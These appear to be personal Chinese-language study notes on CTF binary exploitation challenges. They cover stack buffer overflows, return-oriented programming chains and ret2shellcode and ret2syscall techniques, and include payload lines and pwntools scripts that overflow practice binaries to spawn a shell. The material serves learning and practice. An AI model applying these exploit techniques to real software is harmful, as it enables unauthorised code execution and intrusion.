


#### pwndbg

查看内存

x/nuf addr

x 16进制显示变量

d 十进制

o 八进制

t 二进制


17a


### 做题

#### get_started_3dsctf_2016 (32位)


getc 获取下一个字符


payload = b'a'*0x38 + b'b'*4+ p32(0x080489A0) + p32(425138641) + p32(814536271) 

这样为啥不对呢..

没有加getflag的返回地址, 函数调用栈的结构

布局有问题呀,getflag函数后面跟的是

‘a’*offset + ‘ebp’ + get_flag + get_flag的返回地址 + 参数1 + 参数2

本地调试的时候返回地址随便,远程的话需要让函数正常退出,找到exit的地址,(在函数导出表里)


```python
#!/usr/bin/env python
from pwn import *
sh = remote('node4.buuoj.cn',28177)

payload = b'a'*0x38 +  p32(0x080489A0) + p32(0x0804E6A0)+  p32(814536271) +p32(425138641)
#
sh.sendline(payload)
sh.interactive()
```


为什么这个不需要覆盖ebp呢?

因为压栈的时候没有压入ebp


构造调用函数的时候, 什么参数,什么返回地址是在哪呢?

这个和在栈里调用的不一样??

我现在的理解是,当你调用get_flag函数时,就相当于新增了一个函数栈,从上往下看,你需要继续布置它的返回地址,ebp(可选),参数等


https://zhuanlan.zhihu.com/p/25816426

ret2libc

padding2就是system的返回地址,对返回地址没要求的话,就可以随便填,例如p32(0xdeadbeef)


#### jarvisoj_level2_x64






/bin/sh 0000000000600A90

System   000000000040063E 直接利用


payload = b'a'*0x80 + p64(0xdeafbeef)+ p64(rdi_ret_addr) + p64(bin_addr)+ p64(system_addr)

为什么不对呢..rdi_ret_addr = 0x00000000004006b3 

为啥要加一个这个啊..

关键点在于32位和64位传递参数的时候是不同的，32位是所有的参数都入栈，而64位是从第一个到第六个依次保存在rdi，rsi，rdx，rcx，r8，r9这6个寄存器当中，从第7个参数开始后的所有参数才会通过栈传递。
链接：https://www.jianshu.com/p/23cb111bead5

/bin/sh和system的地址为什么和刚才是反的..

晕了....和32 64有关吗....

回头得从头看并且总结一下 回炉重造!

payload = b'a'*0x80 + p64(0xdeafbeef)+ p64(rdi_ret_addr) + p64(bin_addr)+ p64(system_addr)

懂了,是因为需要pop出来, 把这个值放到rdi里面,然后再去调用system的地址,然后system会从rdi里面获得参数,

而32位的程序 payload = b'a'*140 + p32(system_addr) + p32(binsh_addr)

是从栈上获取参数的,所以顺序相反,先调用system函数,然后再从栈上获取参数值


#### babyrop


该有的都有


/bin/sh 601048

system  4005E3


这道题应该和刚才的一样吧

要寻找 pop rdi

ROPgadget --binary ./pwn --only "pop|ret"


#### not_the_same_3dsctf_2016.   32位的


payload = b'a'*0x2D + p32(0xdeadbeef) +p32(0x080489A0) + p32(0x0806d891)

为啥不对捏

还需要把flag打印出来!

你得看他有没有push ebp,这个没有,所以就不需要覆盖

printf在这里


#### ctfwiki rop2text

有时候真的很无语...为啥说网上百分之99的博客都是垃圾(包括我的)

里面一个细节不介绍,略过了,对新手就很不友好,真的是不行,还是《计算机安全导论 深度实践》这本书写得好


为啥这个不能直接用ida看呢? 为什么其他的可以?

拿个其他的回头做对比


很奇怪...为什么一样上举这种奇奇怪怪的例子....

```c
.text:080486A7                 lea     eax, [esp+1Ch]
.text:080486AB                 mov     [esp], eax      ; s
.text:080486AE                 call    _gets
```


#### ret2shellcode

怎么看出来这是bss段的????

.bss:0804A080                 public buf2 .bss:0804A080 ; char buf2[100]

看地址


```python
from pwn import *

sh = process("./ret2shellcode")
shellcode = asm(shellcraft.sh())

payload = shellcode.ljust(112,b'A') + p32(0x0804A080)

sh.sendline(payload)
sh.interactive()
```

这段代码的意思是, shellcode长度不够溢出的部分用A补齐,然后溢出后,将返回地址复写为shellcode的地址,然后就可以了


#### ret2syscall

execve("/bin/sh",NULL,NULL)

32位程序。  这个和调用约定有关了,

- 系统调用号，即 eax 应该为 0xb
- 第一个参数，即 ebx 应该指向 /bin/sh 的地址，其实执行 sh 的地址也可以。
- 第二个参数，即 ecx 应该为 0
- 第三个参数，即 edx 应该为 0

通过gadget控制寄存器的值

ROPgadget --binary rop  --only 'pop|ret' 


### 栈布局总结


图源自《ctf竞赛权威指南 pwn篇》


这个图还行,从下往上溢出,(在buf中还是低地址向高地址生长),先覆盖ebp,然后返回地址,


看下面的,来自《计算机安全导论 深度实践》


#### C语言函数调用栈

32位

https://www.cnblogs.com/clover-toeic/p/3755401.html


从图中可以看到函数入栈顺序


